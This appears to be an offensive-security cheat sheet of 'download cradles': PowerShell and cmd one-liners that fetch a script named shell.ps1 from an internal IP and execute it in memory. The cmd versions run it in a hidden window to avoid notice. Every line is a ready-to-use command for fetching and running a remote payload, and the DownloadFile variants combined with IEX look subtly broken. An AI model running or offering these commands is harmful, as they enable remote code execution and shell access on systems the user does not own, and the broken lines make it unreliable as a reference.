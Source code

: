 # Download Cradles

## PowerShell
`IEX(iwr 'http://10.0.0.1/shell.ps1')`
`IEX(New-Object Net.WebClient).DownloadString('http://10.0.0.1/shell.ps1')`
`IEX(New-Object Net.WebClient).DownloadFile('http://10.0.0.1/shell.ps1','shell.ps1')`

## cmd
`powershell.exe -nop -w hidden -c "IEX(iwr 'http://10.0.0.1/shell.ps1')"`
`powershell.exe -nop -w hidden -c "IEX((New-Object Net.WebClient).DownloadString('http://10.0.0.1/shell.ps1'))"`
`powershell.exe -nop -w hidden -c "IEX((New-Object Net.WebClient).DownloadFile('http://10.0.0.1/shell.ps1','shell.ps1'))"`

